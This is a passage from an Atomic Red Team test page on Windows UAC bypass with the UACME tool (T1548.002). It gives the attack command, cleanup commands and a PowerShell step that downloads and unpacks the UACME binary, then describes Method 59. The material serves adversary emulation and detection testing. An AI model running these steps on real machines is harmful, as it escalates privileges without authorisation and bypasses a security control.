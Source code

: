 #### Attack Commands: Run with `command_prompt`!

```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:

```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")

##### Check Prereq Commands:

```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```

<br/>
<br/>

## Atomic Test #16 - UACME Bypass Method 59

Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.

Author: James Forshaw

Type: AppInfo ALPC

Method: RAiLaunchAdminProcess and DebugObject

Target: Attacker defined

Component: Attacker defined

Implementation: ucmDebugObjectMethod
